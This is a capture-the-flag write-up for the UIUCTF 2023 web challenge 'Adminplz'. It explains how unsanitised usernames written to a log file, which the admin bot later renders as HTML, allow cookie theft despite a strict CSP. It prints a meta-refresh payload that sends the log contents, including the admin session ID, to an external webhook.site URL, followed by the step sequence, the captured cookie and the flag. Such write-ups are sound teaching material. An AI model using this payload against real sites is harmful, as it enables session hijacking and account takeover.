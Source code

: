 # Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge involves a Log Injection that leads to cookie exfiltration.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is login and submit a URL to the admin bot. If we access the <code>/admin</code> endpoint, we will get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, the server is on 127.0.0.1 on port 8080. It logs on the server and then visits the submitted URL.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resources from being loaded and any scripts from running, so no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't log in as admin since we don't know the password, but we can log in as any user, our username will be set accordingly (password isn't checked).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without going through any sanitization process and
a resource specified by a user-controllable GET parameter (<code>view</code>) is returned to the admin (if they access the endpoint).
The <code>accessResource()</code> method accepts filenames and URLs (of any protocol).<br>
There is no possibility for an XSS, nor possibility to inject anything on any page. The only file we can inject something into, if we are registered and
the <code>view</code> parameter contains the substring "flag", it is <code>/var/log/adminplz/latest.log</code>. This file can be viewed as HTML by the bot's browser if required (via the <code>/admin</code> endpoint and the <code>view</code> parameter).
Sending a url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will cause the admin bot to view the log file as an HTML page.
But what can we do? We cannot activate XSS or load any external resources. Therefore, it is impossible to get the content of <code>/flag.html</code>. Can we steal cookies even without XSS? Yes!
If we look at the code above (the admin one), we can see that not only the username is registered, but also the session ID. If the admin visits a url
such as <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session id (authentication cookie) is written to the log. If we can exfiltrate this,
we can authenticate to the server as admin. There is only text in the log, but we can insert HTML through the username.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to a URL that
incorporates part of the content of the log (admin cookies included) inside it:
```html
.... <html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log content...

'></head> ....
```
This HTML code could redirect the client to the specified URL, including in the <code>exf</code> parameter all the content written before the single quote. If the server logs an admin event within this content, before injecting the <code>'>\</head\></code> part, we can exfiltrate the admin authentication cookie.

## Attack
Six steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it is important that the <code>view</code> parameter contains a valid path (existing file), otherwise an error will be raised and the content of the log will be restored, erasing our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'>\</head\></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After performing these steps, our server will receive a GET request with all the exfiltrated content within a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


We got admin's session ID (<code>36D142A1763851F1DE47DEB881FC2A3A</code>)!
We now need to use this cookie when accessing the <code>/admin</code> endpoint. To access the flag file we need to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, then: <code>https://instance_server/admin?view=file:///flag.html</code>. By visiting this link we will get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

